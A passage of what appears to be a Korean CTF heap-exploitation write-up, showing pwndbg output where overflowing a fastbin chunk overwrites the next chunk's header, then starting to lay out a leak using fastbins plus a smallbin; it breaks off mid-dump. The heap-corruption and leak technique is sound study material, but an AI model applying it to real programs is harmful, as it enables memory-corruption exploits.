 ### leak  
바이너리를 이것저것 실행시키다 보면, fill에서 처음 할당한 chunk 크기보다 크게 사이즈를 입력하고 contents를 넣으면 어떻게 될지 궁금증이 생길 것입니다. 그래서 32바이트로 chunk를 4개 할당하고 fastbin이 제대로 생성하는지 확인하였습니다. 확인 후에, fill에서 사이즈 값을 48로 변경하고 a를 48개 입력하여 heap을 확인해 보았습니다.  
```
pwndbg> heap
Top Chunk: 0x555555757150
Last Remainder: 0

0x555555757000 FASTBIN {
  prev_size = 0,
  size = 49,
  fd = 0x6161616161616161,
  bk = 0x6161616161616161,
  fd_nextsize = 0x6161616161616161,
  bk_nextsize = 0x6161616161616161
}
0x555555757030 PREV_INUSE {
  prev_size = 7016996765293437281,
  size = 7016996765293437281,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```
그랬더니 조작한 fastbin 외의 다른 fastbin의 정보가 다 사라졌습니다. 그리고 이상한 값들이 들어간 것을 확인할 수 있었습니다. 아마도 위에서 a로 overflow시키면서 이상한 값들이 들어간 것 같습니다.  
```
pwndbg> x/10gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000031
0x555555757010:	0x6161616161616161	0x6161616161616161
0x555555757020:	0x6161616161616161	0x6161616161616161
0x555555757030:	0x6161616161616161	0x6161616161616161
0x555555757040:	0x0000000000000000	0x0000000000000000
```
chunk의 값을 확인해보면, 두번째 fastbin의 주소인 0x555555757030에 overflow된 값들이 들어가면서 값이 변경된 것을 알 수 있습니다. 이를 통해 overflow를 통해 다음 heap영역의 값을 변경시킬 수 있다는 사실을 알 수 있었습니다. 하지만 여기서 크기를 조작하여 그 수만큼 받을 수 있다하더라도 dump를 통해서 출력할 수 있는 것 역시 48바이트 뿐입니다. 따라서 leak을 하기 위한 값을 읽어오기 위해서는 같은 크기의 fastbin만을 이용해서는 안되고 smallbin을 하나 이용해야 합니다.  
다음은 leak하는 과정을 정리한 것입니다.  
1. 따라서 4개의 fastbin과 1개의 smallbin 할당합니다. (index 0~4)  
```
pwndbg> heap
Top Chunk: 0x555555757150
Last Remainder: 0

0x555555757000 FASTBIN {
  prev_size = 0,
  size = 49,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x555555757030 FASTBIN {
  prev_size = 0,
  size = 49,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x555555757060 FASTBIN {
  prev_size = 0,
```